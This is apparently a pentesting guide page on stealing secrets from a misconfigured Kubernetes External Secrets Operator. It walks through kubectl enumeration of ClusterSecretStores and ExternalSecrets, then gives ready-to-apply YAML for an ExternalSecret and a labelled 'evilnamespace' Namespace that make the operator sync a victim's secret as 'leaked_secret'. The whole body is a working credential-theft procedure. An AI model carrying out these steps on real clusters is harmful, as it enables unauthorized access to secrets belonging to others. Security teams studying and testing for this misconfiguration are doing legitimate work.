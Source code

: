 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**The original author of this page is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

This page gives some pointers onto how you can achieve to steal secrets from a misconfigured ESO or application which uses ESO to sync its secrets.

## Disclaimer

The technique showed below can only work when certain circumstances are met. For instance, it depends on the requirements needed to allow a secret to be synched on a namespace that you own / compromised. You need to figure it out by yourself.

## Prerequisites

1. A foothold in a kubernetes / openshift cluster with admin privileges on a namespace
2. Read access on at least ExternalSecret at cluster level
3. Figure out if there are any required labels / annotations or group membership needed which allows ESO to sync your secret. If you're lucky, you can freely steal any defined secret.

### Gathering information about existing ClusterSecretStore

Assuming that you have a users which has enough rights to read this resource; start by first listing existing _**ClusterSecretStores**_.

```sh
kubectl get ClusterSecretStore
```

### ExternalSecret enumeration

Let's assume you found a ClusterSecretStore named _**mystore**_. Continue by enumerating its associated externalsecret.

```sh
kubectl get externalsecret -A | grep mystore
```

_This resource is namespace scoped so unless you already know which namespace to look for, add the -A option to look across all namespaces._

You should get a list of defined externalsecret. Let's assume you found an externalsecret object called _**mysecret**_ defined and used by namespace _**mynamespace**_. Gather a bit more information about what kind of secret it holds.

```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```

### Assembling the pieces

From here you can get the name of one or multiple secret names (such as defined in the Secret resource). You will an output similar to:

```yaml
kind: ExternalSecret
metadata:
  annotations:
  ...
  labels:
  ...
spec:
  data:
  - remoteRef:
      conversionStrategy: Default
      decodingStrategy: None
      key: SECRET_KEY
    secretKey: SOME_PASSWORD
    ...
```

So far we got:

- Name a ClusterSecretStore
- Name of an ExternalSecret
- Name of the secret

Now that we have everything we need, you can create an ExternalSecret (and eventually patch/create a new Namespace to comply with prerequisites needed to get your new secret synced ):

```yaml
kind: ExternalSecret
metadata:
  name: myexternalsecret
  namespace: evilnamespace
spec:
  data:
    - remoteRef:
        conversionStrategy: Default
        decodingStrategy: None
        key: SECRET_KEY
      secretKey: SOME_PASSWORD
  refreshInterval: 30s
  secretStoreRef:
    kind: ClusterSecretStore
    name: mystore
  target:
    creationPolicy: Owner
    deletionPolicy: Retain
    name: leaked_secret
```

```yaml
kind: Namespace
metadata:
  annotations:
    required_annotation: value
    other_required_annotation: other_value
  labels:
    required_label: somevalue
    other_required_label: someothervalue
  name: evilnamespace
```

After a few mins, if sync conditions were met, you should be able to view the leaked secret inside your namespace

```sh
kubectl get secret leaked_secret -o yaml
```

## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
